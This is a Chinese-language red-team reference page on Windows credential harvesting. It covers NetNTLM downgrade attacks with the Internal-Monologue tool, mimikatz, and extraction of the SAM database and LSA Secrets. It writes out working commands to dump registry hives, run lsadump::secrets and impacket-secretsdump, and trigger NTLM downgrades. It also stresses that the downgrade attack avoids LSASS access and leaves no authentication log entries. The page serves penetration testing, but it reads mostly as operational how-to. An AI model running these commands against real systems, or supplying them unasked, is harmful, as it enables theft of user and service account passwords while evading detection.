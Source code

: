 ### mimikatz

- [mimikatz](../../安全工具/Mimikatz.md)

---

### 加密降级攻击

`NetNTLM Downgrade Attacks`

**相关文章**
- [Post Exploitation Using NetNTLM Downgrade Attacks](https://www.optiv.com/explore-optiv-insights/blog/post-exploitation-using-netntlm-downgrade-attacks)

**相关工具**
- [eladshamir/Internal-Monologue](https://github.com/eladshamir/Internal-Monologue) - NetNTLM Downgrade Attacks, 通过 SSPI 调⽤ NTLM 身份验证，通过协商使⽤预定义 challenge 降级为 NetNTLMv1，获取到 NetNTLMv1 hash。⽽ NetNTLMv1 hash 可以短时间内使⽤彩虹表去破解。这种情况可以在不接触 LSASS 的情况下检索 NTLM 哈希。可以说比运行 Mimikatz 更隐秘，因为不需要向受保护的进程注入代码或从受保护的进程中转储内存。由于 NetNTLMv1 响应是通过在本地与 NTLMSSP 进行交互而引发的，因此不会生成网络流量，并且所选择的挑战也不容易看到。没有成功的 NTLM 身份验证事件记录在日志中。
    ```
    InternalMonologue -Downgrade False -Restore False -Impersonate True -Verbose False -Challenge 1122334455667788
    ```

    ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/3.png)

    如果以普通用户权限执行 InternalMonologue，能够获得当前用户权限的 Net-NTLMv2 数据包，通过 hashcat 进行破解，能获得当前用户的明文口令

---

### SAM & LSA Secrets

在 Windows 系统中本机的用户密码以 hash 形式存储在 `%SystemRoot%\system32\config\sam` 数据库文件中。

LSA Secrets 存储 PC 用户的文本密码、服务账户密码（例如，必须由某个用户运行才能执行某些任务的密码）、Internet Explorer 密码、RAS 连接密码、SQL 和 CISCO 密码、SYSTEM 账户密码、EFS 加密密钥等用户私人数据等等。

LSA Secrets 存储在注册表中：
```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

**mimikatz**
```
token::elevate
lsadump::secrets
```

**注册表 dump**
```
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
reg save HKLM\SECURITY security

impacket-secretsdump -sam sam -security security -system system LOCAL
或
lsadump::secrets /system:system /security:security
```
